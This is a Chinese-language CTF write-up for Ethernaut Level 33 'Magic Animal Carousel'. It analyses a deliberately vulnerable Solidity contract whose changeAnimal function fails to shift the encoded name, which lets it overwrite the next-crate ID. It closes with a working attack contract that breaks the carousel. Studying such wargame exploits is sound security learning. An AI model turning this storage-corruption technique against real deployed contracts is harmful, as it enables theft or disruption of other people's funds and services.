

## Level_33.Magic Animal Carousel

要求：

> 使旋转木马停止工作；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

contract MagicAnimalCarousel {
    uint16 constant public MAX_CAPACITY = type(uint16).max;
    uint256 constant ANIMAL_MASK = uint256(type(uint80).max) << 160 + 16;
    uint256 constant NEXT_ID_MASK = uint256(type(uint16).max) << 160;
    uint256 constant OWNER_MASK = uint256(type(uint160).max);

    uint256 public currentCrateId;
    mapping(uint256 crateId => uint256 animalInside) public carousel;

    error AnimalNameTooLong();

    constructor() {
        carousel[0] ^= 1 << 160;
    }

    function setAnimalAndSpin(string calldata animal) external {
        uint256 encodedAnimal = encodeAnimalName(animal) >> 16;
        uint256 nextCrateId = (carousel[currentCrateId] & NEXT_ID_MASK) >> 160;

        require(encodedAnimal <= uint256(type(uint80).max), AnimalNameTooLong());
        carousel[nextCrateId] = (carousel[nextCrateId] & ~NEXT_ID_MASK) ^ (encodedAnimal << 160 + 16)
            | ((nextCrateId + 1) % MAX_CAPACITY) << 160 | uint160(msg.sender);

        currentCrateId = nextCrateId;
    }

    function changeAnimal(string calldata animal, uint256 crateId) external {
        address owner = address(uint160(carousel[crateId] & OWNER_MASK));
        if (owner != address(0)) {
            require(msg.sender == owner);
        }
        uint256 encodedAnimal = encodeAnimalName(animal);
        if (encodedAnimal != 0) {
            // Replace animal
            carousel[crateId] =
                (encodedAnimal << 160) | (carousel[crateId] & NEXT_ID_MASK) | uint160(msg.sender); 
        } else {
            // If no animal specified keep same animal but clear owner slot
            carousel[crateId]= (carousel[crateId] & (ANIMAL_MASK | NEXT_ID_MASK));
        }
    }

    function encodeAnimalName(string calldata animalName) public pure returns (uint256) {
        require(bytes(animalName).length <= 12, AnimalNameTooLong());
        return uint256(bytes32(abi.encodePacked(animalName)) >> 160);
    }
}
```

#### 分析

题目很抽象，读了好几遍都没懂，所以直接从头开始分析合约；

先从构造函数开始：

```solidity
constructor() {
    carousel[0] ^= 1 << 160;
}
```

carousel[0]的值为` 0x10000000000000000000000000000000000000000 `；

接着看几个常量：

0xffff：` MAX_CAPACITY `，最大数量；

0xffffffffffffffffffff00000000000000000000000000000000000000000000：` ANIMAL_MASK `，可以理解为动物身份；

0x00000000000000000000ffff0000000000000000000000000000000000000000：` NEXT_ID_MASK `，下一个动物的身份ID；

0x000000000000000000000000ffffffffffffffffffffffffffffffffffffffff：` OWNER_MASK `，拥有者身份；

此处将几个常量都扩充成256位，因为这样能看得更清楚；

**此处相当于3个模式匹配串，当一个256位的值与其相与，便会得到相应的动物身份、下一个动物的ID、拥有者身份；**




下面先看` encodeAnimalName() `函数：

```solidity
function encodeAnimalName(string calldata animalName) public pure returns (uint256) {
    require(bytes(animalName).length <= 12, AnimalNameTooLong());
    return uint256(bytes32(abi.encodePacked(animalName)) >> 160);
}
```

光看不是很能理解，直接示例解释，比如输入"WZM"：

` encodePacked `后：0x575a4d0000000000000000000000000000000000000000000000000000000000

` 右移160位` 后：0x575a4d000000000000000000

也就是说，该函数取字符串encode后的前12字节；

**往上联系，会得到动物身份和下一个动物的身份ID；**


接着看` setAnimalAndSpin() `函数：

```solidity
function setAnimalAndSpin(string calldata animal) external {
    uint256 encodedAnimal = encodeAnimalName(animal) >> 16;
    uint256 nextCrateId = (carousel[currentCrateId] & NEXT_ID_MASK) >> 160;

    require(encodedAnimal <= uint256(type(uint80).max), AnimalNameTooLong());
    carousel[nextCrateId] = (carousel[nextCrateId] & ~NEXT_ID_MASK) ^ (encodedAnimal << 160 + 16)
        | ((nextCrateId + 1) % MAX_CAPACITY) << 160 | uint160(msg.sender);

    currentCrateId = nextCrateId;
}
```

` encodeAnimal `：` encodeAnimalName() `后得到的12字节后，舍弃最后的2字节，取前10字节，得到**动物身份**；

` nextCrateId `：得到下一个**动物身份ID**；

` (carousel[nextCrateId] & ~NEXT_ID_MASK) `：清空下一个动物身份ID；

` ^ (encodedAnimal << 160 + 16) `：得到需要增加的动物的身份；

` ((nextCrateId + 1) % MAX_CAPACITY) << 160 `：动物身份ID递增1，并且左移到该在的位置；

` uint160(msg.sender) `：消息发送者为动物拥有者；

这三个式子中间的` | `可以理解为是用来连接3个数值的，类似` 100 | 020 | 003 => 123 `；

该函数就是新设置一个动物进去，同时设置动物身份、下一个动物的ID、动物拥有者；


最后看` changeAnimal() `函数：

```solidity
function changeAnimal(string calldata animal, uint256 crateId) external {
    address owner = address(uint160(carousel[crateId] & OWNER_MASK));
    if (owner != address(0)) {
        require(msg.sender == owner);
    }
    uint256 encodedAnimal = encodeAnimalName(animal);
    if (encodedAnimal != 0) {
        // Replace animal
        carousel[crateId] =
            (encodedAnimal << 160) | (carousel[crateId] & NEXT_ID_MASK) | uint160(msg.sender); 
    } else {
        // If no animal specified keep same animal but clear owner slot
        carousel[crateId]= (carousel[crateId] & (ANIMAL_MASK | NEXT_ID_MASK));
    }
}
```

首先得到动物拥有者` owner `，检查其不为0，得到需要更改的动物身份和下一个动物的身份ID` encodedAnimal `，最后重新赋值动物身份，其余位置不变；


合约已经全部详细分析完了，可以发现` encodeAnimalName() `函数得到的是动物身份和下一个动物身份ID，并且在` changeAnimal `时，并未正确的向左移` 160 + 16 `位，所以我们调用` changeAnimal() `时，可以改变下一个动物身份ID，并且动物最大数量是` 0xffff `，而记录的` nextCrateId `是` uint256 `，再往上加是有溢出的；

1. 我们先加一个动物"WZM"，它自己的currentID是1，此时的Next_ID是2：

` carousel[0x0001] ` = 0x575a4d0000000000000000027148c25a8c78b841f771b2b2eead6a6220718390；

2. 调用` changeAnimal() `，更改currentID为` 0x0001 `的动物，并且将Next_ID设置为` 0xffff `，并且` 0xffff | 0x0002 = 0xffff `，此时的值为：

` carousel[0x0001] ` = 0xffffffffffffffffffffffff7148c25a8c78b841f771b2b2eead6a6220718390；

3. 接着再增加一个新的动物"AAA"进来时，currentID为` 0xffff `，此时的Next_ID为` (0xffff + 1) % 0xffff = 1 `；

` carousel[0xffff] ` = 0x4141410000000000000000017148c25a8c78b841f771b2b2eead6a6220718390；

4. 当再有一个动物"BBB"进来时，此时的currentID为` 0x0001 `，并且Next_ID为` 0x0002 `，只要名字不是写满10字节，后面便会有第2步中污染的数据"f"；

` carousel[0x0001] ` = 0xbdbdbdffffffffffffff00027148c25a8c78b841f771b2b2eead6a6220718390；


#### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;
import "./Ethernaut.sol";

contract Exp {
    MagicAnimalCarousel mac;
    constructor(address addr){
        mac = MagicAnimalCarousel(addr);
    }
    function Attack() public {
        mac.setAnimalAndSpin("WZM");
        uint256 currentID = mac.currentCrateId();
        bytes memory strBytes = new bytes(12);
        for (uint i = 0; i < 12; i++) {
            strBytes[i] = bytes1(0xff);
        }
        string memory createString = string(strBytes);
        mac.changeAnimal(createString, currentID);
        mac.setAnimalAndSpin("AAA");
    }
}
```


